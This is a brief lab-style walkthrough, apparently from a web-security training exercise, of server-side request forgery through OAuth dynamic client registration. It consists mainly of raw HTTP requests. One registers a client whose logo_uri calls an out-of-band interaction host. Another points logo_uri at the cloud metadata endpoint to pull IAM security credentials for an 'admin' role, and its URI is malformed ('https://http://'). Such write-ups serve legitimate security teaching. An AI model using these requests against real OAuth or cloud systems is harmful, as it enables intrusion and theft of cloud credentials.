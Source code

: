 ```json
POST /reg HTTP/1.1
Host: oauth-YOUR-OAUTH-SERVER.oauth-server.net
Content-Type: application/json

{
    "redirect_uris" : [
        "https://example.com"
    ],
    "logo_uri": "https://5flx84tpk8qxxw3azxg1mpc5swynmda2.oastify.com"
}
```

Create a new app and modify the request to replace the client ID with the malicious app's ID - check Collaborator for any HTTP requests. If it appears, replace the value with the SSRF target:

```json
POST /reg HTTP/2
Host: oauth-0ae900f40368807a89cefce3026d0022.oauth-server.net
Content-Type: application/json
Content-Length: 140

{
    "redirect_uris" : [
        "https://example.com"
    ],
    "logo_uri": "https://http://169.254.169.254/latest/meta-data/iam/security-credentials/admin/"
}
```

Create a new app again, grab the `client_id` and request the logo again. Check the response for sensitive data.